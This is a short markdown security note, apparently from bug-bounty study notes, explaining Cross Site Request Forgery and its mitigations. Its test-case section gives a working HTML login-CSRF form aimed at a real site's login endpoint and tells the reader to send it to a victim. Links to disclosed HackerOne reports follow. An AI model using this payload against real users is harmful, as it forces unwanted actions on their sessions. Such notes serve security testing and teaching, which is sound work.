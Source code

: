 # CSRF

>Cross Site Request Forgery is an attack that forces an end user to execute unwanted action on a web application in which they are currently authenticated.

## Prerequisites:
> User should have active session.

## Mitigation

1. CSRF Token: Token is added in hidden form field, unique per session, large random value.
1. Synchronizer Token Pattern
2. Encryption Based Token Pattern
3. Hash Based Token Pattern
4. Same Site Cookie Attribute
5. Double Submit Cookie (Cookie & request parameter).
6. Re-authentication, One-time token, Captcha (Strong CSRF defense).

## Test Cases:


1. Create a CSRF login POC using the following code.
```
<html>
<body>
<form action="https://unikrn.com/apiv1/login" method="POST">
<input type="hidden" name="usr" value="[email]">
<input type="hidden" name="pwd" value="[password]">
<input type="submit" value="Submit request" />
</form>
</body>
</html>
```
2. Replace the email and password with the valid credentials.
3. Send the script to the victim to make them click.

## Example/POC :

* [CSRF logs the victim into attacker's account](https://hackerone.com/reports/339352)
* [CSRF: add item to victim's cart automatically (starbucks.com - updatecart)](https://hackerone.com/reports/177472)
* [login csrf in analytics.mopub.com](https://hackerone.com/reports/577920)
* [CSRF at (Apply to this program) that lead to submit your request automatic with out any validations](https://hackerone.com/reports/334253)
